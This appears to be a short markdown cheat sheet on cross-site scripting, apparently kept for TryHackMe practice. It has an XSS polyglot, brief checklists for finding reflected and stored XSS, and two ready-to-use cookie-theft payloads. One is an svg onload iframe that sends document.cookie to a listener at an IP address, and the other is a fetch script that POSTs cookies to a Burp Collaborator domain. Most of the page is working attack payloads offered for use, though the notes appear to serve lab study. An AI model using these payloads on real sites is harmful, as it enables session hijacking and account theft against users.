 # Cross-site scripting

## Summary
  

## XSS injection polyglots code XSS
```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

## Finding reflected XSS vulnerability
```
Test every entry point
Submit random alphanumeric values
Determine the reflection context
Test a candidate payload
Test alternative payloads
Test the attack in a browser
```

## Finding stored XSS vulnerability
Test every entry point and exit point
```
Parameters or data within the url query
The url file path
HTTP request headers
Any out-of-bands routes which an attacker can deliver data to application
```

## Exploiting XSS vulnerability
### XSS payload to steal user cookies or sessions
Start a php server on local machine using "php -S local-ip:port"

Paste below code on the page where the vulnerability is found
```
<svg onload='var x = document.createElement("IFRAME");x.setAttribute("src", "http://10.4.64.135:8080/cookie?"+document.cookie);document.body.appendChild(x);''/>
```

### XSS payload to steal user cookies or sessions
Submit the following payload
```
<script>
    fetch('https://BURP-COLLBORATOR-DOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```
